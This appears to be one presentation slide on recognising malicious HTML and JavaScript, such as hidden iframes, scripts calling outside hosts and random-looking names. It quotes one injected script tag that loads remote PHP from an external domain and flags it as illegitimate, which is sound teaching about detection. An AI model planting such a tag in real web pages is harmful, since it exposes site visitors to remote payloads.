

# More malicious code
This also extends to HTML and Javascript
Hidden iframes, random Javascript (especially if it calls to an external IP/hostname), randomly generated functions/variables/etc

<script src="http:// rmore79riveru. rr.nu /nl.php?p=d "></script>
	= probably not legitimate